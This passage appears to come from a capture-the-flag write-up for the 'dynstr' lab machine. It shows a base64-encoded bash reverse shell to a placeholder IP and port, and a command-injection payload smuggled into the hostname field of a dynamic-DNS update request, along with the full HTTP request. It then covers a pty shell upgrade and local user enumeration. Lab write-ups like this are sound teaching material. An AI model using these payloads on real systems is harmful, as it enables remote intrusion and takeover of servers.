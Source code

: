 `echo "/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'" | base64`

Once encoded, we can add the base64 encoded text in to the following payload

`hostname=$(echo+[B64-ENCODED-REVERSE-SHELL]+|+base64+-d+|+bash)";ch3s.dnsalias.htb`

We start a listener on the port we specified and send the request:

```
GET /nic/update?hostname=$(echo+[B64-ENCODED-REVERSE-SHELL]+|+base64+-d+|+bash)";ch3s.dnsalias.htb HTTP/1.1
Host: 10.10.10.244
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Authorization: Basic ZHluYWRuczpzbmRhbnlk
Upgrade-Insecure-Requests: 1


```

When we check our litsener, we can see that we have a reverse shell as www-data

![/img/dynstr/www-rvsh.png](/img/dynstr/www-rvsh.png)

Let's upgrade our python shell using 

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

---

## Escalation to User

### Enumeration as www-data

Looking into /etc/passwd, we find two users:

```
dyna:x:1000:1000:dyna,,,:/home/dyna:/bin/bash
bindmgr:x:1001:1001::/home/bindmgr:/bin/bash
```

It appears that we have read access Looking in the `bindmgr` home directory, we find a folder titled `support-case-C62796521` with a script named `C62796521-debugging.script`.

Using file, we can see that the file is a debugging script, which probably contains a large amount of text.
